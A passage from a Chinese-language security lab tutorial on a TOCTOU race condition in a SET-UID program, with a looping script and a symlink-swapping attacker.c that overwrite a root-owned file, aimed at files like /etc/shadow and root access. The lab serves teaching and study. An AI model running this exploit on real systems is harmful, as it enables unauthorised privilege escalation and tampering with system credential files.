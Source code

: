 这个程序第一眼看上去没有任何问题，但是这里有一个竞态条件漏洞。由于检查（access）与访问（fopen）之间存在时间间隙，所以检查与访问的就有可能不是同一个文件，即使它们的名字相同。如果一个恶意攻击者可以创建一个/tmp/XYZ/链接指向/etc/shadow,输入的字符串就会追加到shadow文件中去。

###3、实验1: 利用竞态条件漏洞

利用漏洞做到以下2点：

+ 重写拥有者为root的任意文件
+ 获取root权限

**实验1.1：重写拥有者为root的任意文件**
1.首先如下图创建几个文件，注意这几个文件的权限。在append_text文件中加入你想要在root_file里加入的任意内容。编译漏洞程序代码并将其设为SET-UID文件。设置suid只需运行以下命令：

	$ sudo chmod u+s vulp

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid51209labid807time1428040942033)
（ps1：这里更正root_file, 请将该文件用户组改为root）
（ps2：这里的tmp_file只是一个临时文件，用法会在下文体现，这里先建一个空的tmp_file就好）


这样攻击条件就都具备了，这步之后都以普通用户的身份进行攻击。

2.创建检查时间戳的脚本check.sh，并将运行vulp的命令加入其中。
```
#!/bin/sh
#注意`不是单引号
old=`ls -l /home/seed/race/root_file`
new=`ls -l /home/seed/race/root_file`
while [ &#34;$old&#34; = &#34;$new&#34; ]
do
	./vulp &lt; append_text
	new=`ls -l /home/seed/race/root_file`
done
echo &#34;STOP... The file has been changed&#34;
```
不要忘记给脚本运行权限：
	
	$ chmod u+x check.sh

3.创建攻击代码attacker.c并编译

```
int main()
{
	while(1){
		system(&#34;ln -sf /home/seed/race/tmp_file /tmp/XYZ&#34;);
		system(&#34;ln -sf /home/seed/race/root_file /tmp/XYZ&#34;);
    }
    return 0;
}
```
i
此时文件夹目录的情况：
![图片描述信息](https://dn-anything-about-doc.qbox.me/userid51209labid807time1428042346102)
（这里更正root_file, 请将该文件用户组改为root）	
